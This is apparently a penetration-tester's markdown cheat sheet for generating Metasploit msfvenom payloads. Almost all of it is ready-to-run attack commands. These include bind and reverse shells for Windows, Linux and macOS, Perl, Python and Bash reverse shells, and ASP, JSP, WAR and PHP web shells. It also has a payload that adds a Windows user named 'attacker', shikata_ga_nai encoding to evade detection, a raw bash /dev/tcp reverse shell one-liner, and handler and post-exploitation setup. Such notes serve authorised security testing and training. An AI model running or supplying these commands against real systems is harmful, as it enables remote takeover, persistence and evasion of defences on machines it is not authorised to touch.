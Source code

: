 ## Payloads
To list  payloads used with msfvenom you can use the following command:

	msfvenom --list payloads

The primary payload you will be using is the: \<os>/meterpreter/reverse_tcp

##### Formats
You can get a list of formats by typing:

	msfvenom --list formats

Make sure you grep what you are looking for or this could be a really long list.

To create the exploit file type:
	
	msfvenom -p <payload> LHOST=<My_IP_Address> LPORT=<Listening_Port> -f <format>

##### Post Session Creations
You can CTRL+z to background the session

	use post/multi/recon/local_exploit_suggester 
	set SESSION 1
	run
	
## Bind Shells

##### Windows
Windows bind shell 

	msfvenom -p windows/meterpreter/bind_tcp RHOST= (IP Address) LPORT=(Your Port) -f exe > bind.exe

##### Linux
Linux Bind Shall

	msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf

##### MacOS
MacOS Bind Shell

	msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho
	
## Other Interesting Items
##### Windows
Create a windows user

	msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe

Open cmd.exe prompt

	msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe

Encode your command

	msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe

One can also use the -a to specify the architecture or the --platform
	
## Reverse Shells

All reverse shells require that you set up a listener within msfconsole the instructions are as follows. Note you dont set up the listnerer until you have built your msfvenom package. 

##### Metasploit Handler

	use exploit/multi/handler
 	set PAYLOAD <Payload name>
 	Set RHOST <Remote IP>
 	set LHOST <Local IP>
	 set LPORT <Local Port>


To create a windows reverse shell:

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe

To create linux reverse shell:

	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf >reverse.elf

If you are not using msfvenom but you have command access you can run:

	bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'

To create a MacOS reverse shell:

	msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho

## Scripting Languages

Perl Reverse Shall

	msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl

Python reverse shell:

	msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py

Bash Reverse Shell:

	msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh

## Web Based

to create an ASP reverse shell:

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp

To create a JSP reverse shell:

	msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp

To create a WAR Reverse shell:

	msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war

To create a PHP reverse shell

	msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
	
Return to [[-README]]